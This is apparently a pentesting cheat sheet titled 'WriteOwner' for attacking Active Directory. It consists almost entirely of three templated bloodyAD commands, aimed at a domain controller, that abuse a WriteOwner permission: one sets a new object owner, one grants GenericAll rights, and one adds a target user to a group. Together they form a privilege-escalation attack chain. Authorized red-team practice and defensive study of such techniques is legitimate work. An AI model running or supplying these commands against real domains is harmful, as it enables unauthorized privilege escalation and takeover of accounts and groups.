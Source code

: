 # WriteOwner

## 1. Set Owner
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' set owner "NEW_OWNER" '<USERNAME>'
```

## 2. Add GenericAll
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' add genericAll "CN=<USER_NAME>,CN=Users,DC=<DOMAIN>,DC=<DOMAIN_EXT>" '<TARGET_USERNAME>'
```

## 3. Add GroupMember
```
bloodyAD --host <DC_FQDN> -d '<DOMAIN>' --dc-ip <DC_IP> -u <USERNAME> -p '<PASSWORD>' add groupMember "<VICTIM_OU>" '<TARGET_USERNAME>'
```
